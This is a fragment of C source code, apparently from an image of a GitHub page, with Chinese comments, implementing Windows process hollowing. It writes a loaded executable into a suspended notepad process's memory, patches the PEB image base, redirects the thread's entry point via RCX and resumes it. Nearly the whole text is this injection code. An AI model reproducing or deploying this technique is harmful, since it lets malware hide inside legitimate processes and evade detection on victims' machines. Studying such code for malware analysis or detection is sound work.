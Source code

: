 ```c
    unsigned char *peMem = load_pe64(fileBuf, &ImageSize, &newImageBase, &entryPoint);
    printf("SizeOfImage: 0x%x, ImageBase: 0x%llx, AddressOfEntryPoint: 0x%x\n", 
            ImageSize, newImageBase, entryPoint);
    //VirtualAllocEx申请一块内存加载source.exe
    void *mem = VirtualAllocEx(pi.hProcess, (void *)newImageBase, ImageSize, 
                                MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if(mem != (void *)newImageBase) {
        printf("VirtualAllocEx Failed, mem: %p", mem);
        free(peMem);
        free(fileBuf);
        return -1;
    }
    //将source.exe写入notepad进程空间中
    result = WriteProcessMemory(pi.hProcess, mem, peMem, ImageSize, NULL);
    free(peMem);
    free(fileBuf);
    if(!result) {
        printf("Load PE Failed: %d\n", GetLastError());
        return -1;
    }
    //修改PEB中的ImageBase
    processPeb.Reserved3[1] = (PVOID)newImageBase;
    result = WriteProcessMemory(pi.hProcess, processInfo.PebBaseAddress, &processPeb, sizeof(processPeb), NULL);
    if(!result) {
        printf("Modify PEB Failed: %d\n", GetLastError());
        return -1;
    }
    //修改notepad进程的context，将入口点(rcx寄存器)设置为source.exe的入口点
    CONTEXT targetContext;
    targetContext.ContextFlags = CONTEXT_FULL;
    result = GetThreadContext(pi.hThread, &targetContext);
    if(!result) {
        printf("GetThreadContext Failed: %d\n", GetLastError());
        return -1;
    }
    targetContext.Rcx = newImageBase + entryPoint;
    result = SetThreadContext(pi.hThread, &targetContext);
    if(!result) {
        printf("SetThreadContext Failed: %d\n", GetLastError());
        return -1;
    }
    system("pause");
    ResumeThread(pi.hThread);
    printf("Injected!\n");
    WaitForSingleObject(pi.hThread, INFINITE);
    printf("Wait Complete!\n");
    return 0;
}
```
